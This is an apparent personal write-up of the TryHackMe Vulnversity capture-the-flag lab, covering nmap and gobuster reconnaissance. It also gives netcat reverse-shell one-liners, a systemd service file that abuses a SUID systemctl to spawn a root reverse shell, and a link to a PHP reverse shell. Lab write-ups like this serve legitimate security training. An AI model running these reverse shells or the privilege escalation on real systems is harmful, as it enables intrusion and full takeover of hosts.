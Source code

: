 ```yaml
---
layout: md
title: TryHackMe Vulnversity CTF
description: Notes on tryhackme.com's vulnversity challenge
tags: ['security', 'tryhackme']
sort_key: 1
---
```


{% include project-headers.html %}

#### Nmap Recon
Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

#### Finding web routes
Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

#### Netcat commands
```
basic connection:
nc -lvnp 4444 [> /path/to/file.ext]
nc <ip> <port> [< /path/to/file.ext]

reverse shells:
nc -e /bin/bash <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

Exploiting systemctl (SUID bit was set), reverse shell using netcat openbsd from systemctl service.
```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"

[Install]
WantedBy=multi-user.target
```
```bash
/bin/systemctl enable /path/to/root-shell.service
/bin/systemctl start root-shell
```

[PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
